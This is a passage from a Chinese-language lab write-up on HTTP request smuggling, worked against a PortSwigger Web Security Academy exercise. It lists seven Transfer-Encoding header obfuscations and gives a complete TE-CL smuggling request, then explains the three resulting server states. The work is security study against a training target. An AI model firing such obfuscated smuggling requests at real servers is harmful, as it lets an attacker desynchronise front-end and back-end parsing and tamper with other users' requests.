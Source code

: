 常见的混淆方式
```
1. Transfer-Encoding: xchunked
2. Transfer-Encoding : chunked
3. Transfer-Encoding: chunked
   Transfer-Encoding: x
4. Transfer-Encoding:[tab]chunked
5. [space]Transfer-Encoding: chunked
6. X: X[\n]Transfer-Encoding: chunked
7. Transfer-Encoding
   : chunked
```

加入混淆之后分别测试CL-TE 或者 TE-CL,练习题目结果为TE-CL
（0后又两个 \r\n）
```
POST / HTTP/1.1
Host: acce1fc51f4411fa8055383700eb0044.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=jxTeA2pWMHwoGLQ1tGyqFdysC4TD4whw
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Content-Length: 4
Transfer-Encoding: chunked
Transfer-encoding: x

13
GET /404 HTTP/1.1

0


```

加入混淆之后 前端正常识别TE 而后端成为只识别CL ，发三次包，分别呈现不同的状态，具体皆可用上述理论解释
![tNNsBV.png](https://s1.ax1x.com/2020/06/02/tNNsBV.png)

第一次发包 后端按照CL 截取红色部分，剩余部分放入缓存
![tNNgNF.png](https://s1.ax1x.com/2020/06/02/tNNgNF.png)

第二次发包 "GET /404 HTTP/1.1" 被读入并响应，剩余的0存入缓存
![tNNcAU.png](https://s1.ax1x.com/2020/06/02/tNNcAU.png)

第三次发包 0 与正常的POST 请求拼接成 0POST 然后响应
![tNNy7T.png](https://s1.ax1x.com/2020/06/02/tNNy7T.png)

## ④ CL不为0的GET请求
